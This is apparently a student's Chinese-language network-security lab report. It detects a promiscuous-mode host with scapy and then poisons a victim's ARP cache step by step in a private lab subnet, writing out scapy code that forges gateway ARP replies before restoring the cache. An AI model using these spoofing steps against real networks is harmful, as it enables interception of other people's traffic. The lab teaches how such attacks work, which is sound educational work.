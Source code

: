# 第四章实验

## 实验环境

### 网络拓扑

![](./IMG/netmap.png)

## 实验过程

### 实验一：检测局域网中的异常终端

#### 关闭混杂模式

在攻击者主机上使用scapy，输入代码`pkt = promiscping("172.16.111.144")`，发送数据包

![](./IMG/scapy_send.png)

发现scapy没有收到回复

#### 开启混杂模式

使用以下指令开启网卡的混杂模式
```
sudo ip link set eth0 promisc on
```

重复之前的步骤再发送一次数据包
![](./IMG/scapy_send2.png)

可以观察到，攻击者主机的scapy收到了回复

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

在攻击者主机上的scapy进行如下操作
```
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](./IMG/arp.png)

伪造网关的 ARP 响应包发送给受害者主机
```
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.144", hwdst= "08:00:27:f3:8c:ed")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![](./IMG/arp2.png)

在受害者主机上查看 ARP 缓存，发现没有被毒化

![](./IMG/check_arp.png)

对构造的APR包加上Ethernet帧头，再次发送
```
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.144", hwdst= "08:00:27:f3:8c:ed")

sendp(arpspoofed)
```

再次查看受害者主机上的 ARP 缓存,网关的 MAC 地址已被替换为攻击者主机的 MAC 地址

![](./IMG/check_arp2.png)

恢复受害者主机的 ARP 缓存记录

```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:12:28:df", pdst="172.16.111.144", hwdst="08:00:27:f3:8c:ed")
sendp(restorepkt1, count=100, inter=0.2)
```

发送后查看受害者主机上的 ARP 缓存，arp缓存恢复正常

![](./IMG/check_arp3.png)